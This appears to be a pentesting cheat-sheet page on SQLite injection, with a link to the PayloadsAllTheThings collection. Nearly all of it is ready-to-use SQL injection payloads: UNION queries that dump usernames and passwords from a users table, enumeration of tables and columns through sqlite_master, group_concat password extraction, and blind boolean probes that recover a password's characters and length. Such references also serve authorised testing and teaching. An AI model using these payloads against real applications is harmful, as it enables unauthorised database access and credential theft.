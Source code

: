 # SQLite

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md" %}

<pre class="language-sql" data-overflow="wrap" data-full-width="true"><code class="lang-sql">?id='' union select 1,2,username,password,5 from users--
union all select...

# BOOLEAN / BLIND
https://www.sqlite.org/printf.html#substitution_types
https://sqlite.org/lang_expr.html#castexpr
# Extract table names
' union select 1,group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%''
# Extract column names
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='
# Extract password
' UNION SELECT 1,group_concat(password) FROM users-- -
<strong>
</strong><strong># Compare first letter of the pass with T
</strong>admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)-- -
# Find the password length
admin' AND length((SELECT password from users where username='admin'))==37-- -
# Sometimes it's necessary to escape single quote by adding two in a row
' union select '-1'' union select 1,2,3,4 -- -
</code></pre>
